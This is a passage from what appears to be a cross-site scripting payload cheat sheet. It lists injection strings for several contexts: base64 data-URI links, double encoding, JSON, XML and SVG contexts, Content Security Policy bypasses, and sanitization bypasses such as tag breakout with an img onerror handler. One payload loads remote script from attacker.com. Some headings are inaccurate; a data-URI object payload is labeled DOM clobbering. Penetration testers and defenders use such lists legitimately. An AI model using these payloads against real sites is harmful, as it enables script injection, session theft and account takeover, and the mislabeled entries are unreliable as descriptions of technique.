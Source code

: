 
`<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click here</a>` 

#### Double Encoding

`%253Cscript%253Ealert('XSS')%253C%252Fscript%253E` 

### Payloads for Specific Contexts

#### JSON Context

`{"key":"\u003cscript\u003ealert('XSS')\u003c/script\u003e"}` 

#### XML Context

`<foo><script>alert(1)</script></foo>` 

#### SVG Context

`<svg><script>alert(1)</script></svg>` 

## Advanced XSS Techniques

### Exploiting CSP Bypasses

Content Security Policy (CSP) is a security feature that helps prevent XSS by restricting the sources from which scripts can be loaded.

#### Exploiting CSP with JSONP

`<script src="https://trusted.com/resource?callback=alert(1)"></script>` 

#### Exploiting CSP with DOM Clobbering

`<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></object>` 

### Bypassing Input Sanitization

Some applications use input sanitization techniques that can be bypassed with clever payload crafting.

#### Null Byte Injection

`<script>alert(String.fromCharCode(88,83,83))</script>\0` 

#### Breaking Out of Tags

`"><img src=x onerror=alert('XSS');>` 

#### Chained Injection

`"><script src=https://attacker.com/xss.js></script>` 

### Sandbox Escapes
